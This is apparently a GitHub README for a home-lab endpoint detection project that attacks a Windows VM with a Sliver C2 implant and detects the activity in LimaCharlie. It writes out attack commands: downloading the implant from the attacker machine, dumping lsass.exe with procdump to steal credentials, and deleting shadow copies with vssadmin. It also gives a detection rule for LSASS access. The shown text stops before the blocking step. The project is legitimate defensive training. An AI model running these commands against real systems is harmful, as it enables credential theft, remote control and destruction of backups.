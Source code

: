<h1>Endpoint Detection and Response</h1>

 
 <h2>Description</h2>
In this Project, attacks are simulated using a virtual Windows and Linux machine and the attacks are monitored, detected and blocked using the Endpoint Detection and Response agent called LimaCharlie.<br />


<h2>Languages and Utilities Used</h2>

- <b>PowerShell</b> 
- <b>Command Line</b>
- <b>Sliver</b>
- <b>Sysmon</b>
- <b>LimaCharlie</b>
- <b>Secure Shell(SSH)</b>

<h2>Environments Used </h2>

- <b>VMware Workstation Pro 17</b>
- <b>Windows 11 Enterprise</b>
- <b>Linux Ubuntu(Server Version)</b> 


<h2>Project walk-through:</h2>

The setup for the VM environment consists of many steps.  For the detailed steps, a link is provided to Eric Capuano's blog <b>So you want to be a SOC Analyst?(Part1)</b> <a href=https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-part>here</a>

The Summary of the VM Environment is as follows:
A.  Establishment of a Windows Virtual Machine with Windows Defender disabled/suppressed and
    and Sysmon installed. Sysmon will provide telemetry through LimaCharlie which is also installed
    on the Windows VM.

B.  Linux Virtual Machine (Ubuntu Server Version) with Sliver Command and Control framework installed.
    Sliver will be used to deliver malware to the Windows VM.

<p align="left"><b>Attack & Monitor</b><br/>

1.  In Linux Machine:
    Drop into root shell and change directory to Sliver location--> cd /opt/sliver

2.  Launch Sliver C2 Agent-->sliver-server

     ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/df71e29b-f3c4-4ca1-a42d-ce608735378f)

3.  Generate C2 session payload with Sliver using Linux Machine’s IP address obtained during the establishment of the Virtual Machines mentioned above.

     --> generate --http  Linux IP Address --save /opt/sliver

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/5bdaed61-3a37-45bc-b754-ec40db806e76)

    Note that MASSIVE_DEPRESSIVE.EXE is the payload/implant name in my case.

4.  Within the opt/sliver directory, we use the following python script to execute a temporary server
    --> python3 -m http.server 80

5. Switch over to Windows Virtual Machine while server is established in Linux Machine
   and launch an Administrative PowerShell console

6. Within the Administrative Powershell Console we run the following command to simulate
   the downloading of the C2 payload from the Linux Attacker Machine.
   
   --> IWR -Uri http://Linux IP/payloadname.exe -Outfile C:\Users\User\Downloads\payloadname.exe

7.  Now that the payload has been downloaded on the Windows Machine, we can execute the Command
    and Control Session as an attacker through the Linux Machine.
    
   a.  Using the SSH session on the Linux server We will relaunch Sliver with command --> sliver-server
   
   b.  Then we start the listener with -->http

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/a84825cd-e9e8-4a03-9b60-08006dc91fff)

8.  Switching over to the Windows Machine, we then execute the payload with the following command using Admin Powershell Prompt:
    --> C:\Users\User\Downloads\<your_C2-implant>.exe
    Note that the established session is shown on the Linux Machine as shown below.

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/6c9c5a86-cfa2-431a-849a-1277643ca12a)

Various attacks can be done through the established session. However, we will proceed to monitoring and detecting this attack in
the Lima Charlie tool.

9.  We can now look for our attack in the Lima Charlie web application. Please note that Lima Charlie was configured after
    the establishment of the virtual machines. The detailed steps are in the link above.

    --> Sensor List
        --> Hostname(windev2305eval.localdomain)

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/a7849e22-66e5-4caa-a8e5-988e51a4e759)

    From here we navigate to -->processes and we find our malware "MASSIVE_DEPRESSIVE.exe"
    Note that there is no green check indicating a signature for the malware. A lack of signature can indicate a malicious
    file/process.

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/985161fa-1ac7-46d6-8db9-a11361fb13d6)

  Navigating just below Processes to --> Network we can see the malware and its source IP and other information.

  ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/fd77e80b-4e11-4adf-a06a-296534ed5bfc)

  Below the Network we may go into -->File System and search for the malware's file path.

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/9631c089-114f-4ba9-9d1a-71fe5bd3a79a)

In the same left menu, we can click on Timeline and monitor near real-time telemetry of the host system.  We can find the
event and its processes and the time of its processes.

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/dfffca45-e5a7-44be-ae0a-436923b90d1d)




<p align="left"><b>Attack & Detection</b><br/>

Now we will attack the Windows VM and detect the attack with a detection rule.

1.  First we reestablish the Sliver malware's attack session with the Windows VM
    and look for the privileges we have on the Windows machine through the C2 agent.
    ---> use[session id]
         -->getprivs
      And we check for "SeDebugPrivilege" which allows for privilege escalation in attacks.

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/e34dfa4d-7b5b-4512-95b8-6826f36f8f8a)

2.  We will use an attack that threat actors use for stealing credentials from a system.
 Using the command -->procdump -n lsass.exe -s lsass.dmp
We can find the attack in the Timeline section in Lima Charlie by filtering Sensitive Process Access

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/6a40730c-c45f-4ec5-9274-48ca26c92740)

3. Now we will write a detection rule through Lima Charlie.
   Clicking on the event opens an event panel with information.
   To enter a detection rule, we click on the box shown below
   ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/5a58c133-5493-4b7e-84c5-a5bb4d81763e)

   In the "Detect" box we remove the previous detection contents from the box and entering our rule
   --> event: SENSITIVE_PROCESS_ACCESS
       op: ends with
       path: event/*/TARGET/FILE_PATH
       value: lsass.exe

       The above specifies detecting an event of SENSITIVE PROCESS ACCESS with the process having lsass.exe.


        In the "Respond" box we add --> - action: report
                                         name: LSASS access
   
 This will prompt Lima Charlie to provide a detection report upon detection. Click Save and name the rule.

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/6262f2c7-3cfa-47d2-9448-1c1ca642c8b5)

4.  We can now test our detection rule by returning to the Sliver server console, back into the C2 session, and rerunning the same
    procdump command as before.

    In Lima Charlie, we go back to sensors then Detections in the left side menu.

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/9686c222-967d-4536-a6bd-fa9be8c3c942)

    As seen above, the attack was detected!
____________________________________________________________________________________________________________________________________________________________________________

<p align="left"><b>Attack & Block</b><br/>
  Deletion of Volume Shadow Copies is a popular attack connected with ransomware.  In this section, we
 will perform the above mentioned attack and block it upon detection using Lima Charlie.

1.  First we restart our Sliver C2 session with the victim machine following the steps in the above sections.

2.  Run command -->shell
    Answer yes to question “This action is bad OPSEC, are you an adult?”

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/329ab9f8-9c82-4789-9fe1-062aa669021a)

3.  Run command -->vssadmin delete shadows /all

4.  Run command -->whoami

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/6915f891-700b-4902-95d0-964faf27c7aa)




    
<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>
